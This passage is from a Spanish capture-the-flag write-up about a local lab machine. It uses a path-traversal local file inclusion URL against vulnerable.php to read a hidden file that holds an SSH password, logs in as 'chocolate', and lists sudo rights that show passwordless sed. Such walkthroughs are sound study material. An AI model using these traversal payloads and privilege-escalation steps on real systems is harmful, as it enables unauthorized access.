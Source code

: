 Info:
```
<VirtualHost *:80>
    ServerAdmin webmaster@tusitio.com
    DocumentRoot /var/www/html
    ServerName sitio.dl
    ServerAlias www.sitio.dl

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    # Bloquear acceso al archivo archivitotraviesito (cuidadito cuidadin con este regalin)
    # <Files "archivitotraviesito">
    #   Require all denied
    # </Files>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

Con esta información intuimos que en la ruta `/var/www/html` hay un archivo llamado `archivitotraviesito`, que resulta bastante interesante.


```
http://172.17.0.2/vulnerable.php?page=../../../../var/www/html/archivitotraviesito
```

Info:
```
Muy buen, has entendido el funcionamiento de un LFI y los archivos interesantes a visualizar dentro de apache, ahora te proporciono el acceso por SSH, pero solo la password, para practicar un poco de bruteforce (para variar) lapasswordmasmolonadelacity 
```

Lo comprobamos y encontramos la contraseña del usuario `chocolate` : `lapasswordmasmolonadelacity`.

Accedemos por SSH.

```bash 
ssh chocolate@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```
Info:
```
Matching Defaults entries for chocolate on 3bd7f67fdd5b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User chocolate may run the following commands on 3bd7f67fdd5b:
    (ALL) NOPASSWD: /usr/bin/sed
```
